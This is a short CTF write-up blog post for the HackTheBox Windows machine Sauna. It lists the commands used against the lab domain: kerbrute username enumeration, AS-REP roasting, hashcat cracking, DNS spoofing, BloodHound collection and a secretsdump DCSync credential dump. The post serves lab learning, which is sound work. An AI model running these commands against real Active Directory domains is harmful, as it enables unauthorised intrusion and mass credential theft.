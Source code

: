 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/EJB_LiZypaM/0.jpg
layout: post
media_subpath: /assets/posts/2020-07-30-sauna-hackthebox
tags:
- asrep-roasting
- dcsync
- hackthebox
- secretsdump
- windows
title: Sauna @ HackTheBox
---
```


Sauna is a 20-point Windows Machine on HackTheBox. For user, we bruteforce usernames and then use ASREP-Roasting to obtain the hash of one the users. For root, we find the logon password for an account that has DCSync privileges and then use secretsdump.py to execute the attack. My walkthrough is available on youtube.

{% youtube EJB_LiZypaM %}

## Notes

**Kerbrute**

```
kerbrute userenum -d egotistical-bank.local xato-net-10-million-usernames.txt --dc sauna.htb
```

**ASREPRoast**

```
GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -format hashcat -outputfile asrep.txt -dc-ip sauna.htb 
```

**Hashcat**

```
hashcat -m 18200 asrep.txt rockyou.txt
```

**Dnschef**

```
sudo sh -c 'python3 dnschef.py --fakeip 10.10.10.175 --fakedomains egotistical-bank.local -q'
```

**Bloodhound**

```
bloodhound-python -c all -u svc_loanmgr -p 'password' -d egotistical-bank.local -dc egotistical-bank.local -ns 127.0.0.1
```

**Secretsdump**

```
secretsdump.py 'egotistical-bank/svc_loanmgr:password@sauna.htb'
```